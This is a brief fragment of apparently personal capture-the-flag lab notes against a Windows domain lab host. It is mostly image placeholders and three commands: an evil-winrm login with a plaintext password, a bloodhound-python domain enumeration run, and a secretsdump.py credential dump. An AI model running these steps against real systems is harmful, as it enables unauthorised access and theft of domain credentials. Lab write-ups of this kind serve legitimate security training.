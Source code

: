 
```
evil-winrm -u 'sbauer' -p 'D3veL0pM3nT!' -i 10.10.10.179
```

![[Pasted image 20241002141912.png]]

![[Pasted image 20241002142112.png]]

![[Pasted image 20241002142511.png]]

![[Pasted image 20241002142528.png]]

```
bloodhound-python -d Megacorp.local -u sbauer -p 'D3veL0pM3nT!' -ns 10.10.10.179  -c all
```

![[Pasted image 20241002142806.png]]

```
secretsdump.py Megaccorp.local/sbauer:'D3veL0pM3nT!'@10.10.10.179
```
![[Pasted image 20241002142952.png]]

